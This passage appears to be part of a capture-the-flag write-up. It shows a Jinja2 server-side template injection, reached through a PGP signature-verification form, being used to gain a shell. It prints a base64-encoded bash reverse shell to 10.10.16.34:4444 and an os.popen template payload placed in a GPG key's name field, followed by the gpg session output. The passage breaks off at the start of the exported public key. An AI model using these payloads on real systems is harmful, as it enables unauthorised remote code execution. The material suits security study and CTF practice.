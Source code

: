 Then we have to make our signed key to Encrypt our Message that we will put in Input Field as Signed Text.

```bash
$ echo "Test" > message.txt
$ gpg --clear-sign --output signed_message.asc messsage.txt
```

After putting this 2 Content into the Proper Field we press on **Verify Signature** and we found "49" [unknown]. It is jinja2 Template Engine. So it worked and it is exploitable.

Determined from the templates that the Jinja2 templating engine is used in our case. Payload generation:

```bash
$ echo "bash -c 'bash -i >& /dev/tcp/10.10.16.34/4444 0<&1'" | base64
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4zNC80NDQ0IDA8JjEnCg==
```

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4zNC80NDQ0IDA8JjEnCg== | base64 -d | bash"').read() }}
```

```bash
$ gpg --gen-key
gpg (GnuPG) 2.2.27; Copyright (C) 2021 Free Software Foundation, Inc.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

Note: Use "gpg --full-generate-key" for a full featured key generation dialog.

GnuPG needs to construct a user ID to identify your key.

Real name: {{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4zNC80NDQ0IDA8JjEnCg== | base64 -d | bash"').read() }}
Email address: test@test.com
You selected this USER-ID:
    "{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4zNC80NDQ0IDA8JjEnCg== | base64 -d | bash"').read() }} <test@test.com>"

Change (N)ame, (E)mail, or (O)kay/(Q)uit? O
We need to generate a lot of random bytes. It is a good idea to perform
some other action (type on the keyboard, move the mouse, utilize the
disks) during the prime generation; this gives the random number
generator a better chance to gain enough entropy.
We need to generate a lot of random bytes. It is a good idea to perform
some other action (type on the keyboard, move the mouse, utilize the
disks) during the prime generation; this gives the random number
generator a better chance to gain enough entropy.
gpg: key B7B79BFC4896BC06 marked as ultimately trusted
gpg: revocation certificate stored as '/root/.gnupg/openpgp-revocs.d/007C935894E9AECF259BABB6B7B79BFC4896BC06.rev'
public and secret key created and signed.

pub   rsa3072 2023-10-25 [SC] [expires: 2025-10-24]
      007C935894E9AECF259BABB6B7B79BFC4896BC06
uid                      {{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4zNC80NDQ0IDA8JjEnCg== | base64 -d | bash"').read() }} <test@test.com>
sub   rsa3072 2023-10-25 [E] [expires: 2025-10-24]

$ gpg --output public.gpg --armor --export test@test.com
File 'public.gpg' exists. Overwrite? (y/N) y

$ cat public.gpg
-----BEGIN PGP PUBLIC KEY BLOCK-----
```